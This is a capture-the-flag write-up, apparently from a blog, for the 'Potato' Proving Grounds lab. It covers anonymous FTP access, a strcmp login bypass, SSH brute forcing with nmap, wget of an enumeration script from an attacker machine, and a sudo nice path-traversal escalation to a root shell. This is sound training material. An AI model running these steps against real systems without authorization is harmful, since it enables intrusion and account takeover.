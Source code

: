 ```yaml
---
title: "Potato"
date: 2024-11-10
draft: false
summary: "Writeup for the Potato proving grounds CTF challenge."
tags: ["linux", "hardcoded creds", "sudo"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/potato/5.webp"
  caption: "Potato Proving Grounds Challenge"
  alt: "Potato cover"
platform: "Misc"
---
```


Potato is a CTF challenge on **proving grounds** that require us to get root access on the system and capture the flag from the *root* directory.
<!--more-->
To access the lab, visit the link given below:
- https://portal.offsec.com/labs/play

## Recon

I performed an **nmap** aggressive scan to find information about the target.

```shell
nmap -A -p- TARGET -oN potato.nmap --min-rate 10000
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 2112     | ftp         |

![](https://cdn.ziomsec.com/potato/1.webp)

## Initial Foothold

**nmap**'s aggressive scan detected ftp anonymous login on the target using `nse` scripts - so I logged into the ftp server and found 2 files.

```shell
ftp -P 2112 TARGET
# username: anonymouse | password: anonymous
> get index.php.bak index.php.bak
> get welcome.msg welcome.msg
```

![](https://cdn.ziomsec.com/potato/2.webp)

The `index.php.bak` file revealed login credentials for *admin*.

```shell
cat ftp/index.php.bak
```

![](https://cdn.ziomsec.com/potato/3.webp)

I then visited the web application but found nothing on the home page.

![](https://cdn.ziomsec.com/potato/4.webp)

I performed a web directory brute force using **ffuf** to find hidden directories and found 2 directories, `admin` and `potato`.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -mc 200,301
```

![](https://cdn.ziomsec.com/potato/5.webp)

I visited both the endpoints and found a login panel at */admin*

![](https://cdn.ziomsec.com/potato/6.webp)

![](https://cdn.ziomsec.com/potato/7.webp)

I tried logging in using the username and password that I had found but failed.

![](https://cdn.ziomsec.com/potato/8.webp)

The login mechanism used `strcmp` to check whether the username and password were correct.  So I looked for ways to bypass `strcmp`.

![](https://cdn.ziomsec.com/potato/9.webp)

![](https://cdn.ziomsec.com/potato/10.webp)

![](https://cdn.ziomsec.com/potato/11.webp)

Hence if I modified the password parameter, I could potentially bypass the security check. To try it out, I fired up **burp suite** and captured a login request. I then changed the `password` parameter as show below and forwarded the request.

![](https://cdn.ziomsec.com/potato/12.webp)

Hence I got access to the admin area but found nothing useful here.

![](https://cdn.ziomsec.com/potato/13.webp)

As a last resort, I tried to bruteforce **ssh** credentials using **nmap** and succeeded.

```shell
nmap -p 22 --script=/usr/share/nmap/scripts/ssh-brute.nse TARGET
```

![](https://cdn.ziomsec.com/potato/14.webp)
![](https://cdn.ziomsec.com/potato/15.webp)

I used these credentials to log into the system.

```shell
ssh webadmin@TARGET
# enter password
```

![](https://cdn.ziomsec.com/potato/16.webp)

## Privilege Escalation

I downloaded the **linux smart enumeration** script on the target and gave it executable permission.

```shell
$ wget "http://KALI/lse.sh"
$ chmod +x lse.sh
```

![](https://cdn.ziomsec.com/potato/17.webp)

I then ran the script to find misconfigurations on the system.

![](https://cdn.ziomsec.com/potato/18.webp)

![](https://cdn.ziomsec.com/potato/19.webp)

![](https://cdn.ziomsec.com/potato/20.webp)

The script revealed I could run a particular command as **sudo** without any password.

![](https://cdn.ziomsec.com/potato/21.webp)

I looked for ways to exploit the **nice** binary on **gtfobins** and tried it, however, it failed.

```shell
sudo nice /bin/sh
```

![](https://cdn.ziomsec.com/potato/22.webp)

![](https://cdn.ziomsec.com/potato/23.webp)

Hence, I could only execute the entire command and not a single binary. Also, I looked inside the **`/notes`** directory and found shell scripts in it. However, due to lack of privilege, I couldn't add or modify any script here. So I used relative path to make it execute a shell script from my home directory.

```shell
$ echo "#/bin/bash" > shell.sh
$ echo "bash -i" >> shell.sh
$ chmod +x shell.sh
$ sudo /bin/nice /notes/../home/webadmin/shell.sh
```

![](https://cdn.ziomsec.com/potato/24.webp)

This approach made me a **root** user. I then captured the flag from the `/root` directory.

![](https://cdn.ziomsec.com/potato/25.webp)

## Closure

Here's a short summary of how I pwned **potato**:
- I found a login panel backup file on the ftp server.
- This file revealed login credentials for admin, however, the admin panel did not provide anything useful.
- Since FTP and HTTP did not reveal anything useful, I used **nmap**'s `ssh-brute` script to brute force **ssh** credentials.
- After logging in, I found out that *webadmin* was allowed to run scripts inside */notes* directory as sudo with **nice**.
- Since I did not have permissions to write inside the scripts present in the *notes* directory, I used relative path to execute a script present on my home directory to spawn an interactive bash shell as root.
- Finally, I captured the flag from the *root* directory.

That was the complete walkthrough of **potato**. Hope you learnt something new!
Happy Hacking :)

---
